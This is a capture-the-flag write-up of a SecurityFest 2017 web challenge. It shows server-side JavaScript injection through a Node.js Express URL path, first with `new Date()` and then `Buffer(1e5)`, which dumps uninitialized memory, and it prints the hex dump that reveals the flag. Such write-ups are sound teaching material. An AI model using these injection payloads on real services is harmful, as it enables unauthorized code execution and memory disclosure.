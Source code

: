```yaml
---
layout: post
title: "SecurityFest 2017: A temple jest (Web 200)"
author: verr, eth7
categories: writeup
tags: [cat/web, tool/python, lang/javascript, tech/nodejs]
---
```


* **Category:** Web
* **Points:** 200
* **Solves:** tbd
* **Description:**

> The target are setting up their intranet communication service. Hack it before they are done! 
> http://alieni.se:3003/

## Write-up

The main page of the challenge displays a *under construction* page with an image loaded from GitHub, no hidden info in the source code, no `robots.txt`.  The HTTP header `X-Powered-By` set to `Express` ([Express.js](https://expressjs.com/)) tells us that we are dealing with a `Node.js` app.

Clicking on the *under construction* sign leads us to `http://alieni.se:3003/render/404`, displaying:

> 404 is under construction...

We get curious and change the url to `http://alieni.se:3003/render/1337`, displaying:

> 1337 is under construction...

Aha, nice! Let us try `http://alieni.se:3003/render/hello` ...

> timeout

Crap. Okay, but how about `http://alieni.se:3003/render/new%20Date()` ... ?

> Wed May 31 2017 22:41:27 GMT+0000 (UTC) is under construction...

Now the solution is obvious, but we struggle to manage to inject interesting code.

After some research, we learn that in Node.js [`Buffer` knows everything](https://github.com/ChALkeR/notes/blob/master/Buffer-knows-everything.md), which allows us to dump memory content. Everything? Well, let's try with a sufficiently large one: `http://alieni.se:3003/render/Buffer(1e5)`

```
│000001e0 00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00 |                |
│000001f0 00 00 00 00 6b 5f 53 63-68 6d 33 6d 30 72 79 5f |    k_Schm3m0ry_|
│00000200 6c 33 34 6b 7d 2d 2d 2d-53 43 54 46 7b 6d 33 6d |l34k}---SCTF{m3m|
│00000210 30 72 79 5f 6c 33 34 6b-00 00 00 00 00 00 00 00 |0ry_l34k        |
│00000220 72 79 5f 6c 33 34 6b 7d-2d 2d 2d 53 43 54 46 7b |ry_l34k}---SCTF{|
│00000230 00 00 00 00 00 00 00 00-33 34 6b 5f 53 63 68 6d |        34k_Schm|
│00000240 33 6d 30 72 79 5f 6c 33-00 00 00 00 00 00 00 00 |3m0ry_l3        |
│00000250 54 46 7b 6d 33 6d 30 72-79 5f 6c 33 34 6b 5f 53 |TF{m3m0ry_l34k_S|
│00000260 00 00 00 00 00 00 00 00-5f 6c 33 34 6b 7d 2d 2d |        _l34k}--|
│00000270 2d 53 43 54 46 7b 6d 33-00 00 00 00 00 00 00 00 |-SCTF{m3        |
│00000280 6b 5f 53 63 68 6d 33 6d-30 72 79 5f 6c 33 34 6b |k_Schm3m0ry_l34k|
│00000290 00 00 00 00 00 00 00 00-7b 6d 33 6d 30 72 79 5f |        {m3m0ry_|
│000002a0 6c 33 34 6b 5f 53 63 68-00 00 00 00 00 00 00 00 |l34k_Sch        |
│000002b0 33 34 6b 7d 2d 2d 2d 53-43 54 46 7b 6d 33 6d 30 |34k}---SCTF{m3m0|
│000002c0 00 00 00 00 00 00 00 00-53 63 68 6d 33 6d 30 72 |        Schm3m0r|
│000002d0 79 5f 6c 33 34 6b 7d 2d-2d 2d 53 43 54 46 7b 6d |y_l34k}---SCTF{m|
│000002e0 33 6d 30 72 79 5f 6c 33-34 6b 5f 53 63 68 6d 33 |3m0ry_l34k_Schm3|
│000002f0 6d 30 72 79 5f 6c 33 34-ef bf bd 2a ef bf bd 03 |m0ry_l34???*????|
│00000300 00 00 00 00 08 2b ef bf-bd 03 00 00 00 00 00 00 |    ?+????      |
│00000310 00 00 00 00 00 00 ef bf-bd 3a 00 00 00 72 79 5f |      ???:   ry_|
│00000320 08 2c ef bf bd 03 00 00-00 00 ef bf bd 2b ef bf |?,????    ???+??|
│00000330 bd 03 00 00 00 00 00 00-00 00 00 00 00 00 ef bf |??            ??|
│00000340 bd 3a 00 00 00 33 6d 30-72 79 5f 6c 33 34 6b 7d |?:   3m0ry_l34k}|
│00000350 2d 2d 2d 53 43 54 46 7b-6d 33 6d 30 72 79 5f 6c |---SCTF{m3m0ry_l|
│00000360 33 34 6b 5f 53 63 68 6d-33 6d 30 72 79 5f 6c 33 |34k_Schm3m0ry_l3|
│00000370 34 6b 7d 20 25 26 67 74-3b 00 00 ef bf bd 3f 47 |4k} %&gt;  ????G|
│00000380 01 00 00 00 00 ef bf bd-ef bf bd ef bf bd 03 00 |?    ?????????? |
│00000390 00 00 00 70 61 74 68 00-00 00 00 ef bf bd 3f 47 |   path    ????G|
```

With the help of `strings`, we extract the flag:

`SCTF{m3m0ry_l34k_Schm3m0ry_l34k}`




